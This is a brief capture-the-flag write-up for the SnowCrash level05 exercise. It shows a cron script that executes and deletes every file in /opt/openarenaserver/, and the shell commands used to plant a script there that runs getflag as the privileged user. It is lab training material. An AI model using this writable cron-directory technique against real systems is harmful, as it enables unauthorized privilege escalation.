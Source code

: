 # Snowcrash05

There's nothing in our home, but we're informed that we have mail
```sh
level05 password:
You have new mail.
level05:~$
```

The mail contains a cron command that launches a command

Here is the target command
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
So basically it calls all the files il /opt/openarenaserver/ , easy to exploit


```sh
level05:~$ echo "getflag > /tmp/log.txt" > /opt/openarenaserver/test.sh
level05:~$ cat /tmp/log.txt
cat: /tmp/log.txt: No such file or directory
level05@SnowCrash:~$ cat /tmp/log.txt
Check flag.Here is your token : REDACTED

```
We have to wait a bit for the server to exec the file, but here it is
